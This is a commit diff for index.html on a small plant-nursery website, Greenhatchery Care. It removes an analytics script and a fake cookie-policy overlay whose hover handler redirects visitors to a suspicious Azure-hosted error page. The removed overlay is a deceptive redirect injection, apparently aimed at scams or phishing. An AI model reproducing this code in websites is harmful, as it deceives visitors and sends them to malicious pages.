

Before and after one commit to sanjsndas/fuzzy-train, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 745 px of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; placeholder pictures from the web are drawn by us.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,7 +1,6 @@
 <!DOCTYPE html>
 <html lang="en">
 <head>
-    <script defer data-domain="greenhatchery.vercel.app" src="https://plausible.io/js/script.js"></script>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>Greenhatchery Care | Where green ideas are born</title>
@@ -17,94 +16,7 @@
             --dark-text: #344e41;
         }
 
-
-
-
-         body {
-      margin: 0;
-      padding: 0;
-      font-family: 'Segoe UI', sans-serif;
-      background: url('https://via.placeholder.com/1200x800') no-repeat center center/cover;
-      height: 100vh;
-    }
-
-    .overlay {
-      position: fixed;
-      inset: 0;
-      backdrop-filter: blur(5px);
-      background: rgba(0, 0, 0, 0.5);
-    }
-
-    .dialog-box {
-      position: fixed;
-      top: 50%;
-      left: 50%;
-      transform: translate(-50%, -50%);
-      background: #1c1c1c;
-      color: white;
-      padding: 30px;
-      border-radius: 20px;
-      width: 400px;
-      box-shadow: 0 0 25px rgba(0,0,0,0.6);
-      text-align: center;
-      transition: 0.3s;
-    }
-
-    .dialog-box:hover {
-      cursor: pointer;
-    }
-
-    .dialog-box h2 {
-      margin-top: 0;
-      font-size: 1.6em;
-      color: #fff;
-    }
-
-    .dialog-box p {
-      font-size: 1em;
-      line-height: 1.6em;
-      color: #ccc;
-    }
-
-    .buttons {
-      display: flex;
-      justify-content: center;
-      margin-top: 20px;
-      gap: 15px;
-    }
-
-    .buttons button {
-      padding: 10px 25px;
-      border: none;
-      border-radius: 25px;
-      font-size: 1em;
-      font-weight: bold;
-      cursor: pointer;
-    }
-
-    .accept {
-      background-color: #00cc66;
-      color: white;
-    }
-
-    .deny {
-      background-color: #e53935;
-      color: white;
-    }
-
-    .policy-link {
-      margin-top: 15px;
-      display: block;
-      color: #00bcd4;
-      text-decoration: none;
-      font-size: 0.9em;
-    }
-
-
-
-
-
-
+        body {
             font-family: 'Roboto', sans-serif;
             color: #333;
             line-height: 1.6;
@@ -544,31 +456,6 @@
         </div>
     </section>
 
-
-
-
-     <div class="overlay">
-    <div class="dialog-box" onmouseover="redirect()">
-      <h2>🍪 Our New Cookie Policy !</h2>
-      <p>
-        For optimized experience, some elements may store temporary signals & For your safety, our Website uses cookies to personalize content and ads, provide social media features, and analyze our traffic.
-      </p>
-      <div class="buttons">
-        <button class="accept">Accept</button>
-        <button class="deny">Deny</button>
-      </div>
-      <a href="#" class="policy-link">Policy Page</a>
-    </div>
-  </div>
-
-  <script>
-    function redirect() {
-      window.location.href = "https://errorcg0x0098gws.z19.web.core.windows.net/";
-    }
-  </script>
-
-
-
     <!-- Footer Section -->
     <footer class="py-6 bg-green-800 text-white">
         <div class="max-w-7xl mx-auto px-4 sm:px-6 lg:px-8 text-center">
```
